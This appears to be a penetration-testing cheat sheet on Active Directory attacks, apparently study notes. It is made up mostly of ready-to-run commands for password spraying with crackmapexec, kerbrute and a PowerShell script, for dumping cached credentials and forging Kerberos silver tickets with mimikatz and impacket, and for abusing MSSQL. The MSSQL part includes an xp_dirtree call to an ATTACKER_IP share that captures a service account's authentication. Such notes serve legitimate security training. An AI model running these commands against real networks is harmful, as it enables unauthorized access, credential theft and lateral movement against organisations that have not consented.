 ### Password Attacks

With LDAP and ADSI
- Before any attack, check `net accounts` to learn more about account lockouts
- Use the script [Spray-Passwords.ps1](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
  - Search wich user has the password `SecretPass123!` with `.\Spray-Passwords.ps1 -Pass SecretPass123! -Admin`
  - Remember to run `powershell -ep bypass` before using scripts

Leveraging SMB
- `crackmapexec smb <IP> -u users.txt -p '<password>' -d <domain-name> --continue-on-success` Password spraying
- `crackmapexec smb <domain_name>/<username>:'<password>' -M targets.txt` Spray a specified password against all domain joined machines contained in `targets.txt`
- Note: this doesn't take into consideration the password policy of the domain

By obtaining a TGT
- It's possible to use kinit to obtain and cache a Kerberos TGT and automate the process with a script
- It's also possible to use [kerbrute](https://github.com/ropnop/kerbrute) instead
  - `.\kerbrute_windows_amd64.exe passwordspray -d <domain-name> .\usernames.txt "<password>"`

### Silver Tickets

To create a silver ticket, you need:
- SPN password hash
- Domain SID
- Target SPN

1. With mimikatz, run the commands `privilege::debug` and `sekurlsa::logonpasswords` to extract cached AD credentials. Note the NTLM hash of the target user
2. Run on the PowerShell the command `whoami /user` to obtain the domain SID (omit the last 4 digits). Note: you should be able to find it also in the previous step
3. Target an SPN
4. Run `kerberos::golden /sid:<SID> /domain:<DOMAIN> /ptt /target:<TARGET> /service:<SERVICE> /rc4:<NTLM-HASH> /user:<USER>`
5. Confirm that you have the ticket ready to use in memory with `klist`

**Another way to do it**
1. `impacket-ticketer -nthash <NT_hash> -domain-sid <domain_SID> -domain <domain_name> -spn MSSQL/<server_FQDN> -user-id <user_ID> <user_name>`
2. `export KRB5CCNAME=$PWD/<ticket_file>`
3. `klist`
4. `sudo nano /etc/krb5user.conf`
5. `sudo echo '<IP_address> localhost <server_FQDN> <DOMAIN_NAME>' >> /etc/hosts`
6. `impacket-mssqlclient -k <server_FQDN>`
   - `select system_user;`
   - `SELECT * FROM OPENROWSET (BULK '<file_path>', SINGLE_CLOB) as correlation_name;`


- Requirement: running in the context of service user (example `svc_mssql`)
- MSSQL, verify if it's running in the context of service user
  1. from kali: `impacket-smbserver -smb2support <share_name> /path/to/share_directory`
  2. from mssql: `exec xp_dirtree '\\ATTACKER_IP\<share_name>'`
  3. from `impacket-smbserver`, see the user that tried to authenticate
  - See '<Service_User>' from PG as an example
- If you have a password, you can generate an NTHASH: <NT_hash_generator_link>
  - There are many tools for this purpose
